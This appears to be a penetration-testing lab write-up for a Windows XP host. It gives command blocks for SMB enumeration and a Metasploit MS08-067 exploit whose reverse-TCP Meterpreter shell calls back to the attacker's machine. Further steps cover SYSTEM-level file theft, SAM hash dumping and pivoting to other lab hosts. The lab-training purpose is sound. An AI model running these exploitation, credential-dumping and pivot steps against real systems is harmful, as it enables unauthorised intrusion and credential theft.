


**Navigation:** [Work index](../README.md) · [Credential pivot (hub)](../credential_pivot_A_Rocha_hosts.md) · [Creds — this host](./credential_pivot.md) · [Dead ends](./unfruitful_attempts.md) · [A_Rocha README](../../README.md)

---

## `10.20.160.100` — Windows XP (EOL)

### Specs & exposure (recap)

| Field | Value |
|-------|--------|
| **OS** | Windows XP SP2/SP3 / embedded variant |
| **Open ports (from host table)** | **139, 445** (SMB), RDP likely given Nessus |
| **Nessus highlights** | **Unsupported XP** (critical), **SMB** issues, **RDP** MiTM class, many **info** SMB/plugin rows |
| **SMB null enum (this run)** | **`enum4linux -a`** — **no NetBIOS reply** from **`10.20.160.100`**; **`Server doesn't allow session using username '', password ''`** — remainder of tests aborted ([`100-001`](./Screenshots/100-001_enum4linux_null_session_denied_no_nbtstat_tm6_afrocha.png)). Do **not** assume **null SMB** works until **`nmap`** shows **137/139/445** reachable and **`smbclient -L -N`** / **CME** agree. |
| **Shell (validated)** | **`exploit/windows/smb/ms08_067_netapi`** → **Meterpreter** — fingerprint **Windows XP SP3** (English), **`LHOST`** lab IP — [`100-003`](./Screenshots/100-003_msf_ms08_067_netapi_meterpreter_session_tm6_afrocha.png). **Post-ex:** **`sysinfo`** — hostname **ADRASTEA**, domain **JUPITER**, **x86**; **`getuid`** — **`NT AUTHORITY\SYSTEM`**; **`shell`** then **`echo … %date% %time%`** (Meterpreter has **no** **`echo`**) — [`100-004`](./Screenshots/100-004_meterpreter_sysinfo_system_shell_echo_tm6_afrocha.png). **SAM:** **`hashdump`** → local **LM/NTLM** lines (**Administrator**, **Barbara**, built-ins, etc.) — [`100-007`](./Screenshots/100-007_meterpreter_hashdump_sam_tm6_afrocha.png) (**do not** paste hash strings into committed **`.md`**). **Wrong lane:** **`ms17_010_eternalblue`** targets **Win7/2008 R2** pool layouts; use **`ms08_067`** on **XP** when **`check`** / **`nmap`** match. |

### Vulnerabilities (brief)

- **EOL OS** — huge unpatched surface; **SMBv1** era bugs (**MS08-067** on **XP**, **MS17-010** on **7/2008 R2**) *may* apply depending on service pack and lab image.
- **RDP** — weak creds or known lab passwords.
- **SMB** — share enumeration and pipe abuse **with creds** or after a **positive vuln check**; **null session** is **not** confirmed on this host (see table above).

### Plan of attack (commands)

**1 — Confirm reachability and SMB surface (before burning time on enum4linux).**

```bash
export RHOST=10.20.160.100
echo TM6_afrocha; date

nmap -Pn -sV -p139,445,3389 -sC "$RHOST" -oA ~/scans/nmap_100
nmap -Pn -p445 --script smb-os-discovery,smb-vuln-ms17-010,smb-vuln-ms08-067 "$RHOST"
```

If **445 filtered/closed** or **no SMB banner**, fix **routing/LHOST lab net** first; **`enum4linux`** “**No reply**” often matches **no path to NetBIOS** or **service off**, not just “null disabled.”

**2 — Null SMB enum (only if step 1 shows SMB open).**

```bash
enum4linux -a "$RHOST"
smbclient -L "//${RHOST}" -N
rpcclient -U "" -N "$RHOST"
```

If you reproduce **`100-001`** (null denied / no nbtstat), **pivot plan:** credentialed **`smbclient` / CME / rpcclient`** from [`credential_pivot_A_Rocha_hosts.md`](../credential_pivot_A_Rocha_hosts.md), **RDP** when **`3389`** is open, or **MSF `smb_version` + exploit `check`** (lab ROE) without relying on anonymous share lists.

**3 — Metasploit lanes (pick what matches scan; do not blindly exploit).**

```text
use auxiliary/scanner/smb/smb_version
set RHOSTS 10.20.160.100
run

use exploit/windows/smb/ms08_067_netapi
set RHOSTS 10.20.160.100
set LHOST <KALI_LAB_IP>
set payload windows/meterpreter/reverse_tcp
set LPORT 4444
check
run
```

**XP vs EternalBlue:** Prefer **`ms08_067_netapi`** when **`nmap` / MSF** fingerprint **XP SP0–3** (see [`100-003`](./Screenshots/100-003_msf_ms08_067_netapi_meterpreter_session_tm6_afrocha.png)). Reserve **`ms17_010_eternalblue`** for **Windows 7 / Server 2008 R2** and set **`show targets`** to match **x64** vs **x86** — do not leave **Target 0** (Win7 x64) on an **XP** host.

**MSF MS17-010 `check` and “timed out … `:135`”:** The checker uses **SMB (`445`)** but may also probe **MS-RPC (`135`)**. A **timeout on `135`** means **Kali never got a timely TCP response on that port** — often **XP / host firewall rules**, **lab ACLs** between subnets, **intermittent loss**, or a **busy/slow target**. It is **not** fixed by changing **`LHOST`**. **Mitigations:** (1) **`nmap -Pn -p135,139,445 -sV "$RHOST"`** — if **`135` is filtered/closed**, expect RPC-dependent steps to be flaky. (2) In **`msfconsole`**, raise socket patience, e.g. **`setg ConnectTimeout 60`**, rerun **`check`**, then **`setg ConnectTimeout 10`** when done (restore a sane default). (3) Retry **`check`** or run **`use auxiliary/scanner/smb/smb_ms17_010`** with **`set VERBOSE true`**. (4) A **green “vulnerable”** line can still appear while a **red `135` timeout** logs beside it — **`run`** may succeed or fail for **other** reasons (arch, groom, patch); capture full **`run`** output. See [`100-002`](./Screenshots/100-002_msf_ms17_010_check_135_timeout_still_vulnerable_tm6_afrocha.png).

**4 — With Meterpreter open (`meterpreter >`):**

**`echo`:** Meterpreter is **not** `cmd.exe` — **`echo`** → **`Unknown command`**. Use **`shell`** first, then **`echo YOURTAG %date% %time%`** at **`C:\WINDOWS\system32>`** (or run **`execute -f cmd.exe -a "/c echo …" -H`** if you stay in Meterpreter).

```text
meterpreter > sysinfo
meterpreter > getuid
meterpreter > ipconfig
meterpreter > pwd
meterpreter > getprivs
meterpreter > screenshot
# Flags / proof (adjust paths per rubric):
meterpreter > search -f proof.txt
meterpreter > search -f local.txt
# Peek contents (prints in this terminal — screenshot for report):
meterpreter > cat "c:\\Documents and Settings\\Barbara\\Desktop\\proof.txt"
# Copy file to Kali (in a normal Kali shell first: mkdir -p ~/loot/100):
meterpreter > lcd /root/loot/100
# If you are not root: lcd /home/kali/loot/100   (absolute path; ~ may not expand in lcd)
meterpreter > download "c:\\Documents and Settings\\Barbara\\Desktop\\proof.txt"
meterpreter > shell
C:\> hostname
C:\> whoami
C:\> cd \
C:\> dir /s /b proof.txt 2>nul & dir /s /b local.txt 2>nul
C:\> exit
meterpreter > hashdump
meterpreter > background
msf5 > sessions -l
```

**Stability:** Prefer **`getuid` / `sysinfo` / `screenshot`** before heavy **`hashdump`** or **`migrate`** (can bluescreen **XP**). **`exit`** in **`shell`** returns to **`meterpreter`**.

**`cat` vs `download`:** **`cat <remote-path>`** only **displays** the file (Unix **`cat`**-style in Meterpreter). **`download <remote-path>`** pulls a copy onto **Kali** into the directory set by **`lcd`** (your local working directory for downloads). There is no **`get`** in classic Meterpreter for arbitrary files — use **`download`**. Paths with spaces: use **quotes** and **double backslashes** as in the block above.

**Windows `type`:** **`type`** is **`cmd.exe`**, not Meterpreter — **`Unknown command: type`** until you **`shell`**, then e.g. **`type "c:\Documents and Settings\Barbara\Desktop\proof.txt"`**. See [`100-006`](./Screenshots/100-006_meterpreter_type_unknown_shell_cmd_proof_tm6_afrocha.png).

**`hashdump` (SAM):** With **`NT AUTHORITY\SYSTEM`**, **`meterpreter > hashdump`** prints **local SAM** hashes (**`UID:RID:LM:NTLM:::`**). Use for **lab cred pivot / offline crack** per **ROE**; store raw output in **gitignored** notes if required. Full capture: [`100-007`](./Screenshots/100-007_meterpreter_hashdump_sam_tm6_afrocha.png).

**End-to-end (session 4):** Single capture from **`run`** through **`sysinfo` / `getuid`**, **`type`** failing in Meterpreter, **`shell`**, and **`type`** on **`Barbara\Desktop\proof.txt`** with operator stamp — [`100-008`](./Screenshots/100-008_ms08_067_session4_sysinfo_shell_proof_txt_tm6_afrocha.png).



**Reachability from ADRASTEA (`ping` — lateral prep):** From **`meterpreter > shell`**, **`ping`** shows **`.101`** and **`.102`** reply with **0% loss** — you have **basic L3 path** from **`.100`** to the other lab targets ([`100-009`](./Screenshots/100-009_shell_ping_101_102_ttl_tm6_afrocha.png)). **TTL** in the capture (**128** vs **64**) is a rough hint: **Windows** often starts near **128**, many **Linux** stacks near **64** — aligns with **Win7 (`.101`)** vs **Linux (`.102`)** in your map.

**Thoughts:** **Ping proves “can send ICMP echo and get a reply,”** not “I can log in” or “every TCP port is open.” It **does** mean **routing/firewall** is not totally blocking the victim from talking to those IPs, so **pivoting is plausible** if you bring **credentials**, **exploits**, or **services** (SMB/RDP/FTP/HTTP) the same way you would from **Kali** — except now you can also **relay traffic through** **ADRASTEA** (see below).

**How to move forward (ordered):**

1. **Cred work from `hashdump`** — Crack or rule out **Barbara** / **Administrator** (lab ROE); try **plaintext** on **`.101`** (**SMB**, **RDP**, **FTP**, **HTTP Basic**) and **`.102`** (**SSH**, **web login**). See [`credential_pivot_A_Rocha_hosts.md`](../credential_pivot_A_Rocha_hosts.md).
2. **From Kali (simplest)** — If a password works, **`crackmapexec smb 10.20.160.101 -u … -p …`**, **`smbclient`**, **`xfreerdp`**, **`curl`** / **`ftp`** — same as before; you already know the hosts answer on the wire.
3. **Through the Meterpreter session (pivot)** — **`background`** the session, then **`use post/multi/manage/autoroute`**, **`set SESSION …`**, **`run`** to add **`10.20.160.0/24`** (or tighter) via the **compromised host**; add **`auxiliary/server/socks_proxy`** (or **SOCKS4a**) and point **`proxychains`** / **MSF** scanners **through** **ADRASTEA** so **source IP** of probes is **`.100`** (useful if only **internal** paths trust **JUPITER** machines).
4. **Stay in scope** — Only **`.100` / `.101` / `.102`** (or whatever the sheet lists); document **failures** in [`unfruitful_attempts`](../unfruitful_attempts/README.md).

```text
meterpreter > shell
ping -n 2 10.20.160.101
ping -n 2 10.20.160.102
echo YOURTAG %date% %time%
exit
```



### Evidence (`100-NNN_*` — chronological for this host)

| # | File | What it shows |
|---|------|----------------|
| **100-001** | [`100-001_enum4linux_null_session_denied_no_nbtstat_tm6_afrocha.png`](./Screenshots/100-001_enum4linux_null_session_denied_no_nbtstat_tm6_afrocha.png) | **`enum4linux -a 10.20.160.100`** — **no nbtstat reply**, **null** **`''`/`''`** session **not allowed** — standard anonymous SMB enum **blocked** on this run |
| **100-002** | [`100-002_msf_ms17_010_check_135_timeout_still_vulnerable_tm6_afrocha.png`](./Screenshots/100-002_msf_ms17_010_check_135_timeout_still_vulnerable_tm6_afrocha.png) | **`ms17_010_eternalblue` → `check`** — **`[-] … timed out … :135`** alongside **`[+] … likely VULNERABLE`** / **target is vulnerable** (RPC path flaky; see MSF note above) |
| **100-003** | [`100-003_msf_ms08_067_netapi_meterpreter_session_tm6_afrocha.png`](./Screenshots/100-003_msf_ms08_067_netapi_meterpreter_session_tm6_afrocha.png) | **`ms08_067_netapi`** **`run`** — **XP SP3** (English) — **Meterpreter session** **`10.20.150.106:4444` → `10.20.160.100`** |
| **100-004** | [`100-004_meterpreter_sysinfo_system_shell_echo_tm6_afrocha.png`](./Screenshots/100-004_meterpreter_sysinfo_system_shell_echo_tm6_afrocha.png) | **`sysinfo`** — **ADRASTEA** / **JUPITER** / **XP SP3** **x86**; **`getuid`** **SYSTEM**; **`shell`** → **`echo`** with **`%date% %time%`** (evidence stamp) |
| **100-005** | [`100-005_meterpreter_search_proof_txt_barbara_desktop_tm6_afrocha.png`](./Screenshots/100-005_meterpreter_search_proof_txt_barbara_desktop_tm6_afrocha.png) | **`search -f proof.txt`** → **`c:\Documents and Settings\Barbara\Desktop\proof.txt`** (32 bytes) |
| **100-006** | [`100-006_meterpreter_type_unknown_shell_cmd_proof_tm6_afrocha.png`](./Screenshots/100-006_meterpreter_type_unknown_shell_cmd_proof_tm6_afrocha.png) | **`type`** in Meterpreter → **`Unknown command`**; **`shell`** → **`type "…\proof.txt" & echo TM6_afrocha %date%`** — proof contents + stamp (**session 4**) |
| **100-007** | [`100-007_meterpreter_hashdump_sam_tm6_afrocha.png`](./Screenshots/100-007_meterpreter_hashdump_sam_tm6_afrocha.png) | **`hashdump`** — **SAM** lines (**Administrator**, **Barbara**, **Guest**, **HelpAssistant**, **SUPPORT_388945a0**, …) as **SYSTEM** on **ADRASTEA** |
| **100-008** | [`100-008_ms08_067_session4_sysinfo_shell_proof_txt_tm6_afrocha.png`](./Screenshots/100-008_ms08_067_session4_sysinfo_shell_proof_txt_tm6_afrocha.png) | **`ms08_067`** **`run`** → **session 4** — **`sysinfo`** (**ADRASTEA**, **JUPITER**) / **`getuid`** **SYSTEM** / **`type`** in Meterpreter fails / **`shell`** + **`type`** **`Barbara\Desktop\proof.txt`** + **`echo TM6_afrocha %date%`** |
| **100-009** | [`100-009_shell_ping_101_102_ttl_tm6_afrocha.png`](./Screenshots/100-009_shell_ping_101_102_ttl_tm6_afrocha.png) | **`shell`** on **ADRASTEA** — **`ping`** **`.101`** / **`.102`** — **0% loss**; **TTL ~128** vs **~64** (Windows vs Linux hint) |

---
